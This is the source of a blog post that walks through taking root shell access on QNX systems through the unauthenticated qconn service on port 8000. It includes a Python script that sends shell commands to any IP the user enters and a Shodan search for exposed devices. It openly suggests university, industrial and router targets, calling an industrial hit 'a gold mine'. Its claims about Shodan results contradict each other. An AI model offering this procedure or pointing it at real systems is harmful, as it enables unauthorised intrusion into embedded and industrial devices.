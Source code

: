 ```yaml
---
layout: post
title:  "Hacking QNX systems over QCONN"
date:   2020-02-13 05:16:03 +0000
categories: jekyll update
highlighter: rouge
---
```

This is a simple guide to exploit QNX ports over QConn port.

![Intro](/assets/img1.jpg)

In case you are wondering what is a QNX system, QNX is a mobile operating system that was originally developed for embedded systems. The operating system’s developer, QNX Software Systems, was acquired by Research in Motion (RIM) and the OS adapted for use in the BlackBerry Playbook tablet. At the Geneva Motor Show, Apple demonstrated CarPlay which provides an iOS-like user interface to head units in compatible vehicles. Once configured by the automaker, QNX can be programmed to handoff its display and certain functionality to an Apple Carplay device.On December 11, 2014, Ford Motor Company stated the company would be replacing Microsoft Auto with QNX.

I guess that is enough intro. Let’s get into the real interesting part.

Requirements:
{% highlight ruby %}
1) QNX system 650SP1 target ISO, running on VMware or Virtual Box.
2) Qconn daemon running on the system
3) Kali Linux (or any other having netcat)
{% endhighlight %}

Qconn – It’s a daemon which provides visibility for looking at File System and System Processes and a lot more, via the QNX Momentics IDE.

![QNX Momentics Process Explorer](/assets/qnx-momentics-target-process-navigator.jpg)
![QNX Momentics IDE FS Explorer](/assets/qnx-momentics-target-fike-system-navigator.jpg)
Fig 1: Snapshots of what the QNX Momentics IDE Looks

`Hacking QNX systems over QCONN`

The thing with QNX Momentics IDE is that it does not require password to authenticate incoming qconn request. This is a fundamental flaw which QNX Systems should look at.

In our case, we will take advantage of this flaw of Qconn, to obtain root privilege shell on attack machine, using the below simple steps. We will use everybody’s favorite “netcat” utility to gain access or communicate. Run the following commands shown in the screenshot:

![QNX Momentics PWN Commands](/assets/qnx-pwing-sequence-over-qconn-and-netcat.png)

Fig 2: Command Sequence to PWN QNX Remotely

This is very straightforward and does not require any complex buffer overflows or code vulnerabilities/exploits. It’s just the way QNX system is and is a pretty big flaw. However, in production level systems “QCONN” is generally not enabled or blocked.

As per my research I could not find a single open Qconn port(8000) on shodan.io for any device in the world, probably some smart hacker can figure that out as well.

---
`Live Example`

A simple shodan.io search for the query for qconn shows around 83 results.

![QNX Momentics PWN Commands](/assets/shodan-out.jpg)

Fig 3: Shodan Query for Qconn port 8000

A simple python script below can be used to send in those commands:


{% highlight ruby %}

#!/usr/bin/python
import socket
import sys

print "Enter IP Address to Connect for QNX Qconn Exploit"
host = raw_input()
port = 8000

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	
	try :  
		print "[+] Connected to Remote QNX System !\n"
     		while 1:  
      			cmd = raw_input("(prompt>)$ ");  
      			s.send(cmd + "\n");  
      			result = s.recv(1024).strip();  
      			if not len(result) :  
	         		print "[+] Empty response. No shell"
            			s.close();  
         			break;  
        		print(result);  
	except KeyboardInterrupt:
		print "\n[+] ^C Received, closing connection"
     		s.close();
	except EOFError:
		print "\n[+] ^D Received, closing connection"
     		s.close();

except socket.error:
	print "[+] Unable to connect to QNX QConn "

{% endhighlight %}

---
`Troubleshoot`

In some cases, you will need to change the location of the shell i.e instead of `"/bin/sh"` the shell on the system could be located at `"/usr/bin/sh"` or `"/bin/ksh”` or `"/sbin/sh"`, make necessary changes to the command on “nc” input line.
Remember do not press enter, before the command is finished. Also, if you get the shell location wrong or press enter before EOC, then you may have to restart.
Better way write a python script to automate.

---
`References  and further reading (existing ones)`
{% highlight ruby %}
1) https://www.exploit-db.com/exploits/21520/ 
2) https://www.optiv.com/blog/pentesting-qnx-neutrino-rtos
3) http://illmatics.com/Remote%20Car%20Hacking.pdf
{% endhighlight %}

---
`Where this can be used?`
---
{% highlight ruby %}
1) University Systems for the curious hacker in you
2) Front End Industrial systems(This should not work here, 
if it does, you found a gold mine)
3) Routers etc.
{% endhighlight %}

External Link: [Blog-link][Blog-link]

Check out Some External Links:
1)[exploit-db][exploit-db]
2)[pt-qnx-rtos][pt-qnx-rtos]
3)[illmatics][illmatics]

[Blog-link]: https://abhijitlamsogeblog.wordpress.com/2016/05/04/pwninghacking-qnx-sys    tems-over-qconn/
[exploit-db]: https://www.exploit-db.com/exploits/21520/
[pt-qnx-rtos]:  https://www.optiv.com/blog/pentesting-qnx-neutrino-rtos
[illmatics]: http://illmatics.com/Remote%20Car%20Hacking.pdf
